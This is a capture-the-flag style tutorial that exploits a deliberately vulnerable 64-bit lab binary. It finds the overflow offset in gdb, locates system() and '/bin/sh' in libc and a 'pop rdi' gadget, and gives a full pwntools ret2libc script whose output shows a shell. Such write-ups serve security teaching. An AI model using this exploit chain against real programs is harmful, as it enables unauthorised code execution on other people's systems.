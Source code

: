 Before we look at the binary's code, we should see if the binary has any binary hardening mitigations. These can make it significantly harder to pwn the binary. We can do this using checksec from pwntools.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ pwn checksec b6_64
[*] '/Hackery/escape/buf_ovf/b6_64/b6_64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

As you can see there, it is al 64-bit binary with NX enabled. NX stands for non-executable stack which means that anywhere that a user can write to cannot be executed as code. This means that we can no longer push shellcode onto the stack, and then execute it. So let's look at the code...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ cat b6_64.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void nothing()
{
  char* buf0[50];
  read(STDIN_FILENO, buf0, 450);
}

int main()
{
  printf("If you do not get back to your research now, we will have to implement corrective solutions.\n");
  nothing();
}
```

So looking at the code, we see a couple of things. The first is that this time our buffer overflow is limited to just 450 characters because of the use of read(). Since this binary is using read, that means when we push "\x00" to the stack (because 64 bit C addresses hhave lots of those) it will continue reading it since it is a null byte. If it was fgets, it would just stop reading input. What we can do is we can get the address of the system function from the libc (since it includes the stdlib.c), along with the address of the string "/bin/sh" (which is usually somewhere in libc) and effectivley get a shell. The first thing we will need to do is find the offset to the rip function.

```
gdb-peda$ disas nothing
Dump of assembler code for function nothing:
   0x0000000000400536 <+0>: push   rbp
   0x0000000000400537 <+1>: mov    rbp,rsp
   0x000000000040053a <+4>: sub    rsp,0x190
   0x0000000000400541 <+11>:  lea    rax,[rbp-0x190]
   0x0000000000400548 <+18>:  mov    edx,0x1c2
   0x000000000040054d <+23>:  mov    rsi,rax
   0x0000000000400550 <+26>:  mov    edi,0x0
   0x0000000000400555 <+31>:  call   0x400410 <read@plt>
   0x000000000040055a <+36>:  nop
   0x000000000040055b <+37>:  leave  
   0x000000000040055c <+38>:  ret    
End of assembler dump.
gdb-peda$ b *nothing+36
Breakpoint 1 at 0x40055a
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b6_64/b6_64 
If you do not get back to your research now, we will have to implement corrective solutions.
75395128
```

One wall of text later...

```
Breakpoint 1, 0x000000000040055a in nothing ()
gdb-peda$ x/s $rbp-0x190
0x7fffffffdcc0: "75395128\n"
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffde60:
 rip = 0x40055a in nothing; saved rip = 0x400575
 called by frame at 0x7fffffffde70
 Arglist at 0x7fffffffde50, args: 
 Locals at 0x7fffffffde50, Previous frame's sp is 0x7fffffffde60
 Saved registers:
  rbp at 0x7fffffffde50, rip at 0x7fffffffde58
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7b9a177 --> 0x68732f6e69622f ('/bin/sh')
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7a53390 <__libc_system>
```

And onto the quest for the holy grail

```
0x7fffffffde58 - 0x7fffffffdcc0 = 408
```

So we the offset between the start of our input and the rip register is 408. We also have the system() address from libc, which is 0x7ffff7a53390. We also have the address of the string "/bin/sh" from libc which is 0x7ffff7b9a177. There is still one more piece we need for the exploit. With this binary, the argument is passed to the function via the registers instead of just being on the stack. This means that we will have to use Return Oriented Programming (ROP) to find a piece of assembly code (referred to as a gadget) that will pop an argument off of the stack and into a register for the system call to read. All the ROP gadget is, is it is a piece of assembly code already somewhere in the function that we will call. The specifi register we should be looking for are rdi, or it's 32 bit counterpart edi. Reason for this being is that should be the first place a function argument is stored. To find it, i will be using a tool called ROPGadget. If you are running the vm I made, it should already be installed. If not, here is the link to the github page.

https://github.com/JonathanSalwan/ROPgadget

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ ROPgadget --binary b6_64 | grep di
0x000000000040048d : je 0x4004a8 ; pop rbp ; mov edi, 0x6009f0 ; jmp rax
0x00000000004004db : je 0x4004f0 ; pop rbp ; mov edi, 0x6009f0 ; jmp rax
0x0000000000400723 : jmp qword ptr [rdi]
0x0000000000400490 : mov edi, 0x6009f0 ; jmp rax
0x000000000040048f : pop rbp ; mov edi, 0x6009f0 ; jmp rax
0x00000000004005e3 : pop rdi ; ret
```

So we can see at the very last line, we have code that will pop a value off the stack and into the rdi register, then return. This will pop "/bin/sh" off the stack and into the register, then just continue running code. So our exploit will look like this.

```
payload = offset + gadget + bin_sh + system
```

So as you can see, when the nothing() function returns, it will execut our rop gadget will we pop the next thing off the stack (/bin/sh) into the rdi register, then it will run system. Now here is the python script that will do all of it.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ cat exploit.py 
#Import Pwn Tools
from pwn import *

#Establish the target
target = process("./b6_64")

#Recieve the first line, so we can reach the read call
print target.recvline()

#Establish the offset to reach the rip register
offset = "0"*408

#Rop Gadget to pop bin_sh into rdi
gadget = p64(0x00000000004005e3)

#Address of "/bin/sh" from libc
bin_sh = p64(0x7ffff7b9a177)

#Address of system function from libc
system = p64(0x7ffff7a53390)

#Constructing the paylaod
payload = offset + gadget + bin_sh + system

#Sending the payload
target.sendline(payload)

#Dropping to an interactive prompt
target.interactive()
```

Now let's test the exploit...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ python exploit.py 
[+] Starting local process './b6_64': Done
If you do not get back to your research now, we will have to implement corrective solutions.

[*] Switching to interactive mode
$ ls
b6_64  b6_64.c    core  exploit.py  out  peda-session-b6_64.txt  test.c
$ echo It Works!
It Works!
$ cat out
Someone has been researching security overriding methods. Level Cleared!
$ exit
[*] Got EOF while reading in interactive
$ exit
[*] Process './b6_64' stopped with exit code -11
[*] Got EOF while sending in interactive
```

And just like that, we pwned the binary.
